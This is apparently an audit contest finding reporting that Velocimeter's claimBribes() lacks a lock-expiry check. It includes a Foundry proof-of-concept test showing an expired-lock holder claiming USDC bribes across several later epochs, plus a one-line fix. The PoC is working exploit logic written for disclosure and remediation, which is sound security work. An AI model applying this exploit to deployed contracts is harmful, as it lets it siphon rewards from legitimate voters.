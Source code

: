 Wonderful Coconut Corgi

High

# Users can claim bribe rewards for expired locks

## Summary
There is a lack of an expiry check in the claimBribes() function of voter.sol, which allows users with expired locks to claim bribes. 

## Vulnerability Detail

The `claimBribes()` function in `voter.sol` is intended to distribute bribe rewards to users who participate in the voting process. When a user calls this function, it allows them to claim the rewards for a given token ID and associated bribe contract.
However, the function fails to check whether the lock associated with the token ID has expired before allowing the user to claim rewards. Ideally, only users with active locks should be eligible to claim bribes. The absence of this check means that users can continue to collect bribes even after their locks have expired.

**Note:** It is not simply that the voter is receiving rewards for the last epoch where they were active (which would be acceptable); rather, they are able to claim rewards indefinitely for all upcoming epochs, despite their lock being expired.

Please check POC for more detail.

## Impact
- This vulnerability allows users with expired locks to unfairly claim rewards, reducing the amount available for legitimate users and effectively stealing from them.

## Code Snippet
https://github.com/sherlock-audit/2024-06-velocimeter/blob/63818925987a5115a80eff4bd12578146a844cfd/v4-contracts/contracts/Voter.sol#L542-L547

## POC 

- Place below test in `minter.t.sol` file of the test suite and run it via command : "forge test --mt testBribesOnExpiredLock -vvv"

```solidity

function testBribesOnExpiredLocks() public {
        deployBase();

        //creating lock for only one week
        FLOW.transfer(address(minter), TOKEN_100K);
        flowDaiPair.approve(address(escrow), TOKEN_1);
        uint tokenId = escrow.create_lock(TOKEN_1,1 weeks); //lock for only 1 week
        minter.startActivePeriod();
        vm.roll(block.number + 1);

        //creating gauge
        voter.createGauge(address(pair), 0);
        address gaugeAddress = voter.gauges(address(pair));

        //creating Bribe 
        address[] memory rewards = new address[](2);
        rewards[0] = address(USDC);
        rewards[1] = address(FRAX);
        ExternalBribe newExternalBribe = new ExternalBribe(address(voter), rewards);
        voter.setExternalBribeFor(gaugeAddress, address(newExternalBribe));

        //Users votes 
        address[] memory pools = new address[](1);
        pools[0] = address(pair);
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;
        voter.vote(tokenId, pools, weights);

        //Rewards are distributed
        voter.distribute();

        //Burning Contracts USDC Balance for clean accounting
        USDC.transfer(address(0),USDC.balanceOf(address(this)));
        console2.log("Voter initial USDC Balance  : ", USDC.balanceOf(address(this)));

        //Donor donates the bribe to bribe contract.
        address donor = address(0x123);
        deal(address(USDC), donor, 4e6);

        vm.startPrank(donor);
        USDC.approve(address(newExternalBribe), 1e6);
        newExternalBribe.notifyRewardAmount(address(USDC), 1e6);
        vm.stopPrank();

        //1 week passes
        //2nd epoch begind
        _elapseOneWeek();

        //At this point voters lock is expired
        //assertEq(escrow.locked__end(tokenId) < uint(block.timestamp), true, "lock is should be expired");

        //Voter calls claimBribes after the lock has been expired
        address[] memory bribes = new address[](1);
        bribes[0] = address(newExternalBribe);
        address[][] memory tokens = new address[][](1);
        tokens[0] = new address[](2);
        tokens[0][0] =  address(USDC);
        tokens[0][1] =  address(FRAX);
        voter.claimBribes(bribes,tokens,tokenId);

        //Here users is receiving the rewards for the first epoch, which is fine given the design choice.
        assertGt(USDC.balanceOf(address(this)),0);
        console2.log("Voter USDC Balance : ", USDC.balanceOf(address(this)));

        //Rewards are distributed
        voter.distribute();

        vm.startPrank(donor);
        USDC.approve(address(newExternalBribe), 1e6);
        newExternalBribe.notifyRewardAmount(address(USDC), 1e6);
        vm.stopPrank();

        //2 week passes
        //3rd epoch begind
        _elapseOneWeek();

        //voters lock is still expired
        assertEq(escrow.locked__end(tokenId) < uint(block.timestamp), true, "lock is should be expired");

        voter.claimBribes(bribes,tokens,tokenId);

        //ideally, voter should not receive any bribes as the lock is expired and was expired for the last epoch as well.
        console2.log("Voter USDC Balance : ", USDC.balanceOf(address(this)));

        //3rd week passes
        //4th epoch begind
        _elapseOneWeek();

        voter.distribute();

        vm.startPrank(donor);
        USDC.approve(address(newExternalBribe), 1e6);
        newExternalBribe.notifyRewardAmount(address(USDC), 1e6);
        vm.stopPrank();

        _elapseOneWeek();

        voter.claimBribes(bribes,tokens,tokenId);

        //Voter is still recieving the rewards
        console2.log("Voter USDC Balance : ", USDC.balanceOf(address(this)));

        //4th week passes
        //5th epoch begind
        _elapseOneWeek();

        voter.distribute();

        vm.startPrank(donor);
        USDC.approve(address(newExternalBribe), 1e6);
        newExternalBribe.notifyRewardAmount(address(USDC), 1e6);
        vm.stopPrank();

        _elapseOneWeek();

        voter.claimBribes(bribes,tokens,tokenId);

        //Voter is still recieving the rewards
        console2.log("Voter USDC Balance : ", USDC.balanceOf(address(this)));

    }

```
## Tool used
Manual Review

## Recommendation

- Add a check to ensure the token lock has not expired before allowing users to claim bribes.
- Note, 1 week (epoch duration) is added allow users to claim the rewards for the last week.

```diff
function claimBribes(address[] memory _bribes, address[][] memory _tokens, uint _tokenId) external {
+++  require(IVotingEscrow(_ve).locked(_tokenId).end + 1 weeks >= block.timestamp, "Expired token");
     require(IVotingEscrow(_ve).isApprovedOrOwner(msg.sender, _tokenId)); 
     for (uint i = 0; i < _bribes.length; i++) { 
         IBribe(_bribes[i]).getRewardForOwner(_tokenId, _tokens[i]); 
     } 
 }
```